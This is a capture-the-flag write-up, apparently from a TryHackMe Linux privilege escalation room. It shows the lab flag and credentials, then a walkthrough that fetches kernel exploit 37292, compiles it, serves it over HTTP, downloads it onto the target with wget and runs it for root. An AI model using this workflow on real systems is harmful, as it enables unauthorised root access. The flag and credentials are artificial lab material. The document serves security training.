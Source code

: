 ### Answer the questions below

1. find and use the appropriate kernel exploit to gain root privileges on the target system.
    
2. What is the content of the flag1.txt file? `THM-28392872729920`
    
    ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745202985771/ef1c9c65-f3db-40e4-a2da-2022ff71bf02.png align="center")
    

visit the [exploitDB](https://www.exploit-db.com/exploits/37292) for Linux Kernel 3.13.0 on the browser within the attack machine and download the exploit within the root folder and move it to `/tmp` folder.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745203197438/adf52f53-912c-414b-8b6c-066cee9d0197.png align="center")

on the root user (not karen) on the terminal run `$ searchsploit linux kernel 3.13`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745203363919/48415c1a-f743-4bd2-b786-bfbb03c669b8.png align="center")

the walkthrough had suggested using wget inorder to escalate privileges, on Karen user within the terminal, `$ cd /tmp` then run `$ wget http://IP_Address:8000/ofc`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745203851000/b06096bd-1c6d-4427-a75c-7e6f303093ec.png align="center")

back to the root user on the terminal, have the exploit downloaded within the root folder then run `$ gcc 37292.c -o ofc` after which start the `$ python3 -m http.server`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745204058925/25be3d9b-a6d2-44b3-b0df-bd87e13938ed.png align="center")

you’ll be able to see exploit.c and ofc on the tmp folder and also can check the privileges. Execute the ofc by running `$ chomd +x ofc` then run `$ ./ofc`. The privileges will be esclated you check the `$ id` and you can now find the flag within the `/home/matt` folder

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1745204085843/dbc9dcbd-b5c8-464e-aa48-0773d1212c30.png align="center")

## Privilege Escalation: Sudo

**Note: Launch the target machine attached to this task to follow along.**

**You can launch the target machine and access it directly from your browser.**

\*\*Alternatively, you can access it over SSH with the low-privilege user credentials below:  
\*\*

**Username: karen**

**Password: Password1**

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.
